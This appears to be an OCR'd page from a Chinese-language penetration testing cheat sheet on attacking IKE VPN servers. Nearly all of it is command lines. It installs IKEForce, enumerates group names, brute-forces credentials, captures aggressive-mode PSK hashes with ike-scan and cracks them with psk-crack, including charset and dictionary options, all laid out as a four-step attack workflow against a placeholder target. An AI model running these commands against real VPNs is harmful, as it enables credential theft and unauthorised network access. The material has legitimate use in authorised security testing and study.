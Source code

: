 安装:

```
pip install pyip
git clone https://github.com/SpiderLabs/ikeforce.git
```

使用IKEForce对IKE VPN 进行枚举：

```
./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic
```

使用 IKEForce 爆破 IKE VPN:

```
./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1
```

```
ike-scan
ike-scan TARGET-IP
ike-scan -A TARGET-IP
ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key
```

#### IKE 激进模式 PSK 破解

1. 验证VPN服务器
2. 使用 IKEForce 枚举来获得组ID
3. 使用 ike-scan 从IKE 终端抓取 PSK 哈希 
4. 使用 psk-crack 破解哈希

##### Step 1: 验证IKE服务器

```
./udp-protocol-scanner.pl -p ike SUBNET/24
```

##### Step 2:使用IKEForce枚举组名

```
./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic
```

##### Step 3: 使用ike-scan抓取PSK哈希

```
ike-scan –M –A –n example_group -P hash-file.txt TARGET-IP
```

##### Step 4: 使用psk-crack 破解PSK 哈希

```
psk-crack hash-file.txt
```

高级psk-crack 选项:

```
pskcrack
psk-crack -b 5 TARGET-IPkey
psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key
psk-crack -d /path/to/dictionary-file TARGET-IP-key
```
